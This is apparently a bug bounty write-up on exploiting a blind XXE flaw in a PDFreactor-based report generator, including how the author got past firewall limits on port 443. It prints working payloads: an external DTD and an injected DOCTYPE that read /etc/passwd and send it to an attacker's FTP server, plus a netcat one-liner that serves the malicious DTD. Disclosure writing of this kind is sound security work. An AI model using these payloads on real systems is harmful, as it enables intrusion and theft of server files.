 ```yaml
---
layout: post
title: "Data Exfiltration through Blind XXE on PDF Generator"
categories: BugBounty
---
```

## Data Exfiltration through Blind XXE on PDF Generator

# Summary:

In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154. However, in order to exfilftrate data, I had to bypass some WAF restrictions.
&nbsp;

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.
&nbsp;

The web application that I was testing was designed for financial operations, and low-level users were able to generate reports. Because this was a private bug bounty program, I've redacted some of the screenshots below and referred to the target as **"redacted.com"**.
&nbsp;

RealObjects PDFreactor (version 9.1.97971) was used in the web application to generate PDF reports. Versions of PDFReactor prior to "10.1.1" are vulnerable to CVE-2019-12154, which does not have a publicly available PoC, but I was able to reproduce the issue by injecting malicious XML content and exfiltrate data using external DTD's.
&nbsp;

In order to reproduce this vulnerability, two attacking machines with publicly accessible IP addresses were required. This was due to the PDF Generator machine's firewall only allowing requests to port 443. The need for an SSL certificate was eliminated because I was able to bypass the application logic by using **http://** as protocol and appending port **:443** at the end of the url, such as **http://attacker.com:443**.


# Steps to Reproduce:

&nbsp;
**1. Preparing the needed scripts and payloads:**{: style="color: red"}
&nbsp;

While exploiting this vulnerability, I had pointed the below subdomains to two different IP's.
&nbsp;

1. http.arben.sh -> [IP_HERE]
1. ftp.arben.sh -> [ANOTHER_IP_HERE]

&nbsp;
On the `ftp.arben.sh`{: style="color: red"} server I used [xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) which uses Ruby language to launch an FTP server on the attacker's specified port (in this case 443).
&nbsp;

To do this, I changed line nr. 3 on xxe-ftp-server.rb script from **"ftp_server = TCPServer.new 2121"** to **"ftp_server = TCPServer.new 443**".
&nbsp;

Then fired up the script using the following command:
> $> ruby xxe-ftp-server.rb
> {: style="color: red"}

&nbsp;

Heading over to `http.arben.sh`{: style="color: red"} subdomain, in the directory where the HTTP server would be running, I created a file named **payload.dtd** with the following content.
&nbsp;

&nbsp;
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://ftp.arben.sh:443/%stuff;'>">
```
&nbsp;

A simple way to start a HTTP server on a desired port is by using Python with the following command:
> $> python3 -m http.server 443
> {: style="color: red"}
&nbsp;

**2. Sending the malicious request:**{: style="color: red"}
&nbsp;

I logged in using my low-privileged account and navigated to the report generation page from the left menu. I had BurpSuite on the background intercepting the requests and clicked on the "PDF" text (marked with red sign as shown in the screenshot below) in order to generate the PDF.

&nbsp;
![image46]({{ site.baseurl }}/assets/images/46.png){:.images}
&nbsp;

On the intercepted request being made to "https://redacted.com/redacted/api/v1/pdf/download", I then edited the **htmlBody=**{: style="color: red"} parameter with the following payload (URL encoded):
&nbsp;

&nbsp;
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "https://http.arben.sh:443/payload.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

&nbsp;
- The above payload would send a HTTP request to our HTTP server and execute the payload stored within **payload.dtd**, which would then exfiltrate data of **/etc/passwd** (or any specified file/directory) to our FTP server as shown on the screenshots below. Even though the target's server responded with a "500 Internal Server Error" status code, the payload was being processed in the backend.


&nbsp;
![image47]({{ site.baseurl }}/assets/images/47.png){:.images}
&nbsp;

Heading over to our virtual private server's, we saw that a request for **payload.dtd** was made and we began receiving data on our FTP server. We were able to easily enumerate files and directories on the target's system because this PDFGenerator was built in Java.

&nbsp;
![image48]({{ site.baseurl }}/assets/images/48.png){:.images}
&nbsp;

When I mentioned this issue to my friend [0xCela](https://twitter.com/0xcela), he came up with a One-Liner that would eliminate the need for two private servers.
&nbsp;

An attacker could use the **netcat** utility to listen on port 443 and serve a static response (malicious dtd), then kill the HTTP server and immediately start an FTP server using the Ruby script. Even though this appears to be simple because it requires less effort to set up the payloads, it may only work occasionally due to race conditions and lower the vulnerability severity, but again it would reduce the attacker's cost.
&nbsp;

**Command on VPS:**
&nbsp;

```bash
echo -e 'HTTP/1.1 200 OK\n\n<!ENTITY % payl SYSTEM '"'"'file:///etc/passwd'"'"'>\n<!ENTITY % int "<!ENTITY &#37; trick SYSTEM '"'"'ftp://attacker:443/%payl;'"'"'>">' | nc -N -lnvp 443; ruby xxe-ftp-server.rb

```
&nbsp;

**Request payload on BurpSuite:**
&nbsp;

```xml
<?xml version="1.0"?><!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://attacker:443/">%remote;%int;%trick;]>
```
&nbsp;

*Note: A PDF Generator may appear insignificant at first glance but it can be an open door to your organization for the attacker. To resolve such issues, make sure your software is always up to date and that proper WAF rules are in place.*

&nbsp;
*Thank you for taking the time to read this, and I hope you find it useful.*
&nbsp;
